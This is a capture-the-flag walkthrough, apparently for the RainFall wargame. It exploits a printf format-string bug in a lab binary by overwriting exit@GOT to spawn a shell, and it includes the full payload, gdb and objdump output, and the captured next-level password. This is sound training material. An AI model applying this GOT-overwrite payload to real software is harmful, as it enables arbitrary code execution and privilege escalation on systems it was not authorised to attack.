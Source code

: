 # RainFall — Level 4 Walkthrough (printf/GOT overwrite)

> Context: `level5` binary (no RELRO, no canary, NX disabled, no PIE). Goal is to pop a shell (function `o`) even though the program calls `exit` from `n`. We’ll abuse a format-string bug in `printf` to overwrite `exit@GOT` with the address of `o`.

---

## 1) Quick recon

```bash
$ file ./level5
$ checksec ./level5
RELRO           STACK CANARY      NX            PIE
No RELRO        No canary found   NX disabled   No PIE
```

Run it:

```bash
$ ./level5
sdfsdf
sdfsdf

$ ./level5
aaaa %p %p %p
aaaa 0x200 0xb7fd1ac0 0xb7ff37d0
```

It **echoes with `printf`** using our input as the *format string* → classic format-string vulnerability.

---

## 2) What does the code do?

Disassemble:

```bash
$ gdb ./level5
(gdb) info functions
...
0x080484a4  o
0x080484c2  n
0x08048504  main
...

(gdb) disas main
0x08048504 <+0>: call 0x80484c2 <n>

(gdb) disas n
0x080484c2 <+0>:   ...
0x080484e5 <+35>:  call fgets
0x080484f3 <+49>:  call printf        ; uses our input as format string
0x080484f8 <+54>:  movl $0x1,(%esp)
0x080484ff <+61>:  call exit          ; program terminates here
```

So `n()` reads a line, **printfs it** (format string bug), then **calls `exit`**.

`o()` is our “win” function:

```bash
(gdb) disas o
0x080484a4 <+0>:  system(0x80485f0)   ; "/bin/sh" string
0x080484bd <+25>: _exit(1)
```

Plan: **overwrite `exit@GOT`** to point at `o`. When `n` calls `exit`, we’ll jump to `o` instead and get a shell.

---

## 3) Leak stack layout to find our arg index

We want to know which **positional specifier** (`%4$n`, `%5$n`, …) will reference a pointer we control.

```bash
$ python -c 'print "aaaa" + " %p" * 10' > /tmp/explo
$ ./level5 < /tmp/explo
aaaa 0x200 0xb7fd1ac0 0xb7ff37d0 0x61616161 0x20702520 0x25207025 ...
```

Notice `0x61616161` (= `'aaaa'`) appears as the **4th** printed pointer after the three fixed values.
Therefore, **our first 4 bytes** (from the input buffer) are available to `printf` as the **4th variadic argument** → we’ll use **`%4$n`**.

---

## 4) Find the addresses

* **GOT entry of `exit`:**

```bash
$ objdump -R ./level5 | grep exit
08049828 R_386_JUMP_SLOT   _exit
08049838 R_386_JUMP_SLOT   exit
```

We’ll target: `exit@GOT = 0x08049838`.

* **Address of `o`:** from `gdb`: `o = 0x080484a4`.

We want to write the 32-bit value **`0x080484a4`** into memory at **`0x08049838`**.

---

## 5) Build the format string payload

Format-string trick:

* Put the **target address** at the start of the input so it sits where `printf` will fetch the 4th argument.
* Print **N characters**, then use **`%4$n`** to write that count to the address pointed to by the 4th argument.
* Choose **N = 0x080484a4 (decimal 134,513,828)**, adjusted for whatever bytes `printf` has already emitted before `%d`.

Working payload from your session:

```bash
$ python -c 'print "\x38\x98\x04\x08" + "%134513824d" + "%4$n"' > /tmp/explo
```

Notes:

* `\x38\x98\x04\x08` is **little-endian** `0x08049838` (the GOT address for `exit`).
* We used `%134513824d` so that **total chars printed** at the moment of `%4$n` equals (in this runtime) the target value `0x080484a4`.
  Minor off-by-few adjustments are **normal** because some leading bytes (like the ASCII `'8'` from `0x38`) get printed and counted. If your value is off, tweak the number.

---

## 6) Trigger the overwrite and get a shell

Run the program with the crafted input:

```bash
$ ./level5 < /tmp/explo
```

Now the GOT slot for `exit` points to `o`. The next `exit()` from `n` actually calls `o` → `system("/bin/sh")` drops a shell under `level6`.

Use the implicit shell:

```bash
$ whoami
level6
$ cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

---

## 7) Why this works (quick recap)

* **Vuln:** `printf(user_input)` (format string) lets us read/write arbitrary memory with `%p`, `%n`, etc.
* **No RELRO** means **GOT is writable** at runtime.
* **Overwrite `exit@GOT` → `o`** using `%n`.
* When `n()` calls `exit`, control flow diverts to `o()` → `system("/bin/sh")` → shell.

---

## 8) Troubleshooting tips

* If the program exits without shell: your write likely missed. Re-check:

  * Correct GOT entry (use `objdump -R`).
  * Correct target address of `o`.
  * Correct **positional index** for `%n` (here it’s `%4$n` because our data showed up as the 4th argument).
  * Adjust the decimal padding by a small amount (± a few) until the write lands exactly.
* If the program crashes immediately, you might be writing an impossible value or to the wrong place.
* If blocked by `Permission denied` writing to `/tmp/expl`, use a different filename (you used `/tmp/explo`, which worked).

---

That’s it. Clean, reliable GOT overwrite → shell → grab the next password.